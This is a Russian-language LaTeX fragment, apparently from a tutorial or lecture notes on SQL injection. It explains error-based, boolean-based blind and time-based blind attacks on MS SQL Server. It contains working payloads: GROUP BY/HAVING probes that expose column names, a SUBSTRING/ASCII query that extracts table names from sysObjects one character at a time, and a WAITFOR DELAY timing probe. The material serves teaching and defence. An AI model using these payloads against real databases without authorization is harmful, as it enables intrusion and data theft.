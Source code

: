 \begin{itemize}
    
    \item \textbf{Error-based injection}\\
    Инъекции, основанные на том, что злоумышленник может видеть вывод ошибки. Уязвимость устраняется просто отключением этого вывода

    Последовательное выполнение следующих запросов может помочь определить в тексте ошибки названия столбцов:\\
    \begin{grayquote} 
        ' HAVING 1=1 --\\
        ' GROUP BY table.columnfromerror1 HAVING 1=1 --\\
        ' GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 --\\
        .....\\
        ' GROUP BY table.columnfromerror1, columnfromerror2, columnfromerror(n) HAVING 1=1 --\\
        Если ошибки перестали появляться, значит столбцы закончились
    \end{grayquote}
    
    \item \textbf{Boolean-based blind injection}\\
    Если атакующий все же может получить информацию о наличии или отсутствии ошибки из HTTP-статуса, в сервисе имеется уязвимость к обычной слепой атаке. Рассмотрим запрос, который позволит нам при помощи алгоритма бинарного поиска посимвольно определить название первой таблицы и в дальнейшем всех данных
    
    \begin{grayquote} 
        TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND \\
        ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND\\ 
        name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78--\\
        \#Этот запрос говорит нам, что ASCII-значение первого символа больше 78 \\
        \#дальнейший перебор определит точное значение 
    \end{grayquote}
    
    \item \textbf{Time-based blind injection}\\
    Если атакующий не наблюдает никаких отличий в ответах сервера, можно попробовать SLEEP или WAIT FOR DALAY
    
    \begin{grayquote} 
        SELECT * FROM products WHERE id=1; WAIT FOR DELAY '00:00:15'
    \end{grayquote}
    Конечно, реальные примеры будут выглядеть примерно как boolean-based, только true и false атакующий будет отличать по времени отклика
\end{itemize}



